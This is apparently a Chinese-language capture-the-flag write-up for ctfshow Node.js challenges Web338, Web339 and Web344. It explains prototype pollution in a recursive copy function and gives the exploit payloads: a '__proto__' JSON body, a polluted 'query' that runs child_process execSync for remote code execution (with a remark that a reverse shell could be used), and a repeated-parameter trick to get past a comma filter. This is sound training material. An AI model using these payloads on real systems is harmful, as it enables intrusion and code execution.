 # 写在前面

图片如果不是科学上网，可能由于网速原因看不见，如果需要看图可以点击图片链接

# Web338

首先从入口文件看起，`app.js`，发现两个关键路径

```javascript
app.use('/', indexRouter);
app.use('/login', loginRouter);
```

当然主页就不用看了，直接看关键部分，login，从当中我们不难得出需要让`secert.ctfshow==='36dboy'`即可获取flag，这里很简单，原型链污染嘛

```javascript
/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow==='36dboy'){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  } 
});
```

其中涉及到这一部分的利用函数就是`copy`，这是一个递归调用函数，for循环遍历object2当中的key(键)，如果这个键在object1与object2当中都存在，则调用`copy(object1[key], object2[key])`,否则让`object1[key] = object2[key]`

```javascript
function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
  }
```

那如果我们让`object2`为`{"__proto__":{"ctfshow":"36dboy"}}`会发生什么（注意本题当中object1为secret变量）

由于`object1和object2`的对象都具有属性`__proto__`,进入if语句为true，执行

`copy(object1[__proto__], object2[__proto__])`

此时`let key in object2`的`key`为`ctfshow`很明显object1当中没有，所以进入else部分

`object1[ctfshow] = object2[ctfshow]`，成功赋值为`36dboy`

Burpsuite发送请求包即可获取flag

```
POST /login HTTP/1.1
Host: 4ffe41ca-e762-4c9a-b7e1-56edabb0ab85.chall.ctf.show
Content-Length: 34
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Content-Type: application/json
Origin: http://4ffe41ca-e762-4c9a-b7e1-56edabb0ab85.chall.ctf.show
Referer: http://4ffe41ca-e762-4c9a-b7e1-56edabb0ab85.chall.ctf.show/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=176b20985423e8-07d414625df175-3323765-144000-176b209854358f
Connection: close

{"__proto__":{"ctfshow":"36dboy"}}
```



# Web339

这道题开始麻烦起来了，先来分析思路，首先列出本题利用所需要的关键代码

首先是login.js

```
/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow===flag){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
});
```

之后是api.js

```
var express = require('express');
var router = express.Router();
var utils = require('../utils/common');


// var query = "return global.process.mainModule.constructor._load('child_process').execSync('whoami');";
/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  res.render('api', { query: Function(query)(query)});
   
});
module.exports = router;
```

我们发现在api.js当中`Function里的query变量没有被引用`，如果我们能够通过原型污染攻击给它赋任意我们想要的值会怎样？？岂不是可以随意执行代码进行RCE了

首先给出我的payload吧，当然嫌麻烦的话里面可以搞成反弹shell的，看自己

```
{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').execSync('cat routes/login.js');"}}
```

通过调试我发现污染到了this,在nodejs当中其指向module.exports，最外层调用的时候会指向global，具体原因还不知道，未来希望能够破解，暂时水平受限，反正看到query到了全局变量里面

![CTFSHOW-WEB339](./pic/CTFSHOW-WEB339.png)

之后我们前往`url/api`界面发起post包即可获得flag



# Web344

代码审计，需要query当中的name，password与isVIP符合条件，本来传入`query={"name":"admin","password":"ctfshow","isVIP":true}`即可但是这道题过滤了2c也就过滤了`%2c(逗号)`(req.url获取的值是url编码后的所以逗号会变成%2c)

```
router.get('/', function(req, res, next) {
  res.type('html');
  var flag = 'flag_here';
  if(req.url.match(/8c|2c|\,/ig)){
  	res.end('where is flag :)');
  }
  var query = JSON.parse(req.query.query);
  if(query.name==='admin'&&query.password==='ctfshow'&&query.isVIP===true){
  	res.end(flag);
  }else{
  	res.end('where is flag. :)');
  }
});
```

Nodejs的一个小特性吧，这样他会把三个部分拼接在一起，这样也就满足了题目的条件也得到了flag

```
由于"的url编码为%22与c又合成了2c所以c需要编码
query={"name":"admin"&query="password":"%63tfshow"&query="isVIP":true}
```

